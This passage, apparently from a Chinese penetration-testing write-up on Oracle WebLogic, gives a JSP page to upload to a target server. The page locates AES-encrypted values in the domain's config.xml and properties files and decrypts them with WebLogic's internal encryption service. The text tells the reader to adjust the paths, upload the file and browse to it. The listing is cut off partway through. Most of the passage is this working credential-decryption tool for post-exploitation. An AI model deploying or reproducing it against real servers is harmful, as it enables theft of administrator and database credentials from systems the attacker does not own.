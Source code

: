 在使用前需要改一下PREFIX，还需要指定Secruity_path和Config_path路径。然后上传到目标服务器上，访问即可。

![image](images/2019.12-weblogic/image(14).png)

代码如下：

```
<%@ page contentType="text/html; charset=GBK" %>
<%@ page import="java.io.*"%>
<%@ page import="java.util.*"%>
<%@ page import="javax.xml.parsers.*"%>
<%@ page import="org.w3c.dom.*"%>
<%@ page import="javax.xml.xpath.*"%>
<%@ page import="weblogic.security.internal.*"%>
<%@ page import="weblogic.security.internal.encryption.*"%>

<%!
private static final String PREFIX = "{AES}";
private static final String XPATH_EXPRESSION = "//node()[starts-with(text(), '"
			+ PREFIX + "')] | //@*[starts-with(., '" + PREFIX + "')]";
private static ClearOrEncryptedService ces;
private static final String Secruity_path = "/root/Oracle/Middleware/user_projects/domains/base_domain/security";
private static final String Config_path = "/root/Oracle/Middleware/user_projects/domains/base_domain/config/config.xml";


private static String processXml(File file)  {
		String result = "";
		try{
			Document doc = DocumentBuilderFactory.newInstance()
					.newDocumentBuilder().parse(file);
			XPathExpression expr = XPathFactory.newInstance().newXPath()
					.compile(XPATH_EXPRESSION);
			NodeList nodes = (NodeList) expr.evaluate(doc, XPathConstants.NODESET);
			for (int i = 0; i < nodes.getLength(); i++) {
				Node node = nodes.item(i);
				result = print(node.getNodeName(), node.getTextContent());
			}
		}catch (Exception e) {
				result = "<font color=\"red\">出错了。。</font>";
			
		}
		return result;
 
	}
private static String processProperties(File file) 
{
		String result = "";
		try{
			Properties properties = new Properties();
			properties.load(new FileInputStream(file));
```